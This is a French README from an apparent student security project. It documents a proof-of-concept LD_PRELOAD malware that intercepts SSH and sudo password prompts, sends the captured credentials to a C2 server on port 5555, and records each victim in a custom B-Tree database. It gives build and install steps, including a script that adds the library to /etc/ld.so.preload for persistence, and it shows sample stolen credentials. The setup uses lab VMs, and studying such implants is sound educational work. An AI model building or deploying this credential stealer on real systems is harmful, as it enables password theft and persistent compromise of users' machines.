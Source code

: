 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

---

## 📁 Structure du projet

CC1-DATABASE-ESGI/
├── server/
│ ├── server.c
│ ├── register_victim.c
│ ├── Makefile
│ └── ...
├── BTreeDB/
│ ├── author.md
│ ├── btree.c/.h/.o
│ ├── table.c/.h/.o
│ ├── repl.c/.h/.o
│ ├── persistence.c/.h/.o
│ ├── main.c/.o
│ ├── database.db # base des victims
│ ├── id_counter.txt # ID auto-incrémenté
│ ├── db.txt, db/, tests/
│ ├── Makefile, README.md
│ └── BTreeProject/
├── LD_PRELOAD/malware/
│ ├── malware.c
│ ├── send_to_c2.c
│ ├── malware.so
│ ├── Makefile
│ └── install_ldso_preload.sh
└── README.md

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

- OpenSSH installé :

  sudo apt install openssh-server
🔧 Compilation du serveur + base

cd ~/server/CC1-DATABASE-ESGI/server
make clean
make
🚀 Lancer le serveur C2

./server
Le serveur écoute sur le port 5555
Il reçoit :

register <hostname> <password> → stocké dans la base BTree

log <hostname> <cmd> → affiché dans le terminal

💻 VM 2 – Malware (192.168.1.15)
🛠️ Prérequis
OpenSSH installé :

sudo apt install openssh-server
⚠️ Configuration du malware
Dans send_to_c2.c, modifier l’IP du serveur (ligne #define C2_IP "...") :


#define C2_IP "192.168.1.20"
#define C2_PORT 5555
Vous pouvez aussi modifier le port C2 si nécessaire.

🔧 Compilation

cd ~/mal/CC1-DATABASE-ESGI/LD_PRELOAD/malware
make
🐚 Injection automatique via LD_PRELOAD

chmod +x install_ldso_preload.sh
sudo ./install_ldso_preload.sh
Cela ajoute le chemin absolu de malware.so dans /etc/ld.so.preload


| Fonction                         | Description                                                                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 🔑 Exfiltration de mot de passe  | Intercepte les entrées `password:` dans un terminal                                                                                                       |
| 📦 Envoi vers serveur C2         | Format : `register <hostname> <mdp>`                                                                                                                      |
| 🚫 Blocage de fichiers sensibles: Empêche `open()` sur sudo /etc/passwd`, `/etc/shadow`, etc. Exemple : `sudo cat /etc/passwd` → Permission denied▪️ ` cat /etc/passwd` → aussi bloqué |

| 🧠 Injection automatique via SSH | Vous pouvez tester avec :<br>▪️ `LD_PRELOAD=./malware.so ssh name@192.168.1.xx`                                                                               |
| 💾 Persistance dans BTree        | Chaque victime est stockée dans `database.db` avec ID unique                                                                                              |
| 🔁 Injection persistante         | Automatique via `/etc/ld.so.preload`                                                                                   

🔍 Vérification de la base
Sur la VM C2 :

cd ../BTreeDB
./db
Dans la CLI :


select
Vous verrez (le register el le mdp de la connexion ssh):
ex
(1, anisdebian, 1478)
(2, onur, 1234)

🧪 Exemple de test
Lancer le serveur C2 sur VM1 :
./server


Sur la VM malware, compiler et injecter :


make
chmod +x install_ldso_preload.sh
sudo ./install_ldso_preload.sh
Se connecter à une machine distante via SSH (ou exécuter sudo ls)
exemple :
LD_PRELOAD=./malware.so ssh nom@192.168.1.xx (ip)


→ password: sera intercepté sur le serverc2
Vérifier la base côté serveur :

cd ../BTreeDB
./db
> select (pour parcourir l'arbre et voir ceux qui est insert)
autre commande expliqué dans la db


❌ Pour désactiver le malware

sudo rm /etc/ld.so.preload
📎 Remarques
Le fichier database.db est mis à jour automatiquement.
